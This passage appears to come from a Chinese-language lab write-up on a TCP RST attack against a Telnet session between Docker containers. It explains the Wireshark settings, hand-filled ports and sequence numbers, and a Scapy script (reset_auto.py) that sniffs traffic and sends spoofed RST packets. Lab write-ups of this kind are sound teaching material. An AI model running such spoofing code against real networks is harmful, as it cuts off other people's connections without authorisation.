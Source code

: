 为了方便起见，将TCP的相对端口号设置为绝对端口号，再edit -> preferences ->  protocal -> relative xxx … 取消掉，就可以了。

接着手动填入上方的sport 和 seq ，接着就可以实现 TCP RST 攻击了。

![image-20230422000903501](pic\image-20230422000903501.png)



**为什么还要发送一个SYN包**

当只发一个RST包时，Telnet 不会停止连接。这时随便输入一个数数字，连接断开。猜测是telnet 自己的 机制。为了方便起见，这里顺便输入了一个SYN 包 好让程序自动退出。





参考源码：reset_auto.py

~~~python
#!/usr/bin/python3
from scapy.all import *

user="172.17.0.2"
server="172.17.0.3"
attacker="172.17.0.4"

PORT = 23

def spoof(pkt):
	old_tcp = pkt[TCP]
	old_ip  = pkt[IP]
	
    #避免截获自己抓的包
	if old_tcp.flags=="R":
		return 
	#ls(pkt)
	ip_new  = IP(src=old_ip.src,dst=old_ip.dst)
	tcp_new = TCP(sport=old_tcp.sport, dport=old_tcp.dport,flags="R",seq=old_tcp.seq)
	pkt = ip_new/tcp_new

	send(pkt,verbose=0)
	#print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))

f = 'tcp and src host {} and dst host {} and dst port {}'.format(user, server, PORT)

#必须要指定docker0才能抓到包，不知道为什么
iface='docker0'
~~~